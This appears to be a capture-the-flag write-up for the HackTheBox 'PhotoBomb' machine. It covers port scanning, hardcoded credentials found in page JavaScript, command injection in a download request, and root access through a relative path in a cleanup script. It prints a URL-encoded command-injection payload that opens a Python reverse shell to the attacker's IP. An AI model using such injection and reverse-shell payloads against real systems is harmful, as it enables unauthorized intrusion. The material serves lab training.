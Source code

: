 # HackTheBox PhotoBomb WriteUp

![Ping](images/photobomb.png?raw=true "Photobomb")


Machine IP: 10.10.11.182

![Ping](images/img(1).png?raw=true "Ping")

<br/>

### -> NMAP SCAN

```
sudo nmap -vvv -cSV -p0-65535 --reason -T4 10.10.11.182 -oN photobomb.nmap
```

![Ping](images/img(2).png?raw=true "Ping")

### -> WEB ENUM

Added domain photobomb.htb in /etc/hosts

![Ping](images/img(3).png?raw=true "Ping")

Going to site and checking functionality, I found a link of a printer. 

![Ping](images/img(4).png?raw=true "Ping")

It's asking for credentials 

![Ping](images/img(5).png?raw=true "Ping")

Viewing page source, I found a photobomb.js 

![Ping](images/img(6).png?raw=true "Ping")

Accessing the file, got credentials. pH0to : boMb!

![Ping](images/img(7).png?raw=true "Ping")

### -> FOOTHOLD

Accessing the page with these credentials, found diffirent photos and link to downlaod. Analyze request of downlaod with Burp Suite.

![Ping](images/img(9).png?raw=true "Ping")

Download post request contains three parameters. Checking that these parameters are injectable or not.So, start python server and making request to server with parameters.

![Ping](images/img(10).png?raw=true "Ping")

As server is receiving request,it is vulnerable for remote code injection.

![Ping](images/img(11).png?raw=true "Ping")

### -> USER FLAG

Start netcat

![Ping](images/img(12).png?raw=true "Ping")

Prepare a python reverse shell and url encode it

```
%3bexport+RHOST%3d"10.10.14.95"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Got a shell in netcat and user flag.

![Ping](images/img(13).png?raw=true "Ping")

### -> ROOT ACCESS

Checking for root access, found that user may access to /opt/cleanup.sh So, viewing the content found that it is using relative path

![Ping](images/img(14).png?raw=true "Ping")

Inserted the path /bin/bash  path to /opt/cleanup.sh enables the root access so got a root flag.

![Ping](images/img(15).png?raw=true "Ping")